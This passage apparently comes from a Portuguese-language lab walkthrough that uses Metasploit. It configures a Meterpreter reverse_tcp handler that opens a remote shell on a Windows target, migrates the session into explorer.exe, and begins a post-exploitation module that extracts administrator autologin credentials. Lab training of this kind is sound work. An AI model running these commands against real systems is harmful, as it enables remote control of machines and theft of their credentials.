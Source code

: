 ```bash

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

<div class="page"/>

Vamos configurar o payload com o comando `set payload` e as opções `LHOST` e `LPORT` com o comando `set`:

```bash
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.4.3
LHOST => 10.10.4.3
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
```

Agora basta executar o módulo de exploração com o comando `run`:

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.4.3:4444 
[*] Sending stage (175174 bytes) to 10.4.29.138
[*] Meterpreter session 3 opened (10.10.4.3:4444 -> 10.4.29.138:49825 ) at 2023-02-14 09:31:41 +0530

meterpreter > 
```

Que nos deu uma nova sessão com o `Meterpreter` rodando no sistema alvo.

## **<a id="6"> • Extract AutoLogin credentials.</a>**

Antes de tudo, precisamos migrar o processo atual para o `explorer.exe` para que tenhamos controle total desse ambiente de usuário específico, ou seja, usuário administrador:

Para isso vamos utilizar o comando `migrate` com a opção `-N` para especificar o nome do processo que queremos migrar:

```bash
meterpreter > migrate -N explorer.exe
[*] Migrating from 828 to 3548...
[*] Migration completed successfully.
```

Agora vamos utilizar o modulo `post/windows/gather/credentials/windows_autologin` para extrair as credenciais de autenticação do usuário administrador, para isso vamos utilizar o comando `use` e `show options` para listar as opções disponíveis. Mas antes disso vamos colocar o `Meterpreter` em background com o comando `background`:
